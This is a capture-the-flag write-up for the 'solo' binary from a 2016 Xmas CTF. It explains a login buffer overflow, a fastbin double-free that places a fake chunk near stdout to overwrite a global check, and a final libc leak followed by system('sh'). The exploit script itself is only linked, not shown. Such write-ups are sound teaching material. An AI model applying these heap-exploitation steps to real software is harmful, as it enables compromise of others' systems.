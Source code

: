 # 0x0 Introduction
```
┌──[ root Hacked by Hawk1n5 at CTF in ~/CTF/Xmax_ctf_2016/solo ]
└─────> file solo 
solo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=a4bc7756998eb9c75ac8e3df5041a688f4bde7df, stripped
┌──[ root Hacked by Hawk1n5 at CTF in ~/CTF/Xmax_ctf_2016/solo ]
└─────> checksec solo 
[*] '/root/CTF/Xmax_ctf_2016/solo/solo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
    FORTIFY:  Enabled
```

This binary have some feature :
```
WELCOME TOOOOOO EASY SERVICE
H4CK TH15 S3RVICE PLZ!!!

1. malloc
2. free
3. list
4. login
5. exit
$ 
```

* malloc
	* ptr = malloc(size)
	* read(0, ptr, size)
* free
	* free(index)
* list
	* do nothing
* login
	* if *0x602080 != 0 
		* read(0, buf, 0x7d0)
* exit
	* quit
		
# 0x1 vulnerbility

## login buffer overflow

In login method,it read size 0x7d0 will let it bof,and overwrite ret address.

but login have a check :

```
  400770:	48 83 3d 08 19 20 00 	cmpq   $0x0,0x201908(%rip)        # 602080 <stdout+0x10>
  400777:	00 
  400778:	74 29                	je     4007a3 <__isoc99_scanf@plt+0x133>
  40077a:	be 2a 0e 40 00       	mov    $0x400e2a,%esi
  40077f:	bf 01 00 00 00       	mov    $0x1,%edi
  400784:	31 c0                	xor    %eax,%eax
  400786:	e8 c5 fe ff ff       	callq  400650 <__printf_chk@plt>
  40078b:	48 8d 74 24 30       	lea    0x30(%rsp),%rsi
  400790:	ba d0 07 00 00       	mov    $0x7d0,%edx
  400795:	31 ff                	xor    %edi,%edi
  400797:	31 c0                	xor    %eax,%eax
  400799:	e8 72 fe ff ff       	callq  400610 <read@plt>
```

0x602080 must big then 0, so we need another vul to overwrite 0x602080, and use this bof to get shell.

## fastbin corruption

In free method, it didn't check your input pointer is free or not.

So,it have double free.

And can use fastbin corruption,control malloc chunk to anywhere

* how to do
	* 1 = malloc(size) 
	* 2 = malloc(size)
	* free(1)
	* free(2)
	* free(1)
		* then fastbin will like this:
	```
	(0x70)     fastbin[5]: 0x603000 --> 0x603070 --> 0x603000 (overlap chunk with 0x603000(freed) )
	```
	* 3 = malloc(size) = 0x603000 # input aaaa
	* 4 = malloc(size) = 0x603070
	* 5 = malloc(size) = 0x603000
	* 6 = malloc(size) = 0x61616161 "aaaa"

now, we know how to use this vul,and we need to overwire 0x602080,

but malloc() have a check about fastbin,it will check malloc size and will malloc chunk size is same,

near 0x602080, there have a symbol "stdout" and it high byte is 0x7f, 

```
gdb-peda$ x/10gx 0x602060
0x602060:       0x0000000000000000      0x0000000000000000
0x602070 <stdout>:      0x00007ffff7dd72a0      0x0000000000000000
0x602080:       0x0000000000000000      0x0000000000000000
```

so we use size is 0x70-0x10(size and prev size),

in the 3rd time to malloc write 0x60206d in to heap

and the 6th time to malloc will get 0x60206d because is size(+8) is 0x70 so it can pass malloc check 

```
gdb-peda$ x/2gx 0x60206d
0x60206d:	0xfff7dd72a0000000	0x000000000000007f
```

finally, overflow and leak libc base then call system('sh')

[payload](exp.rb)
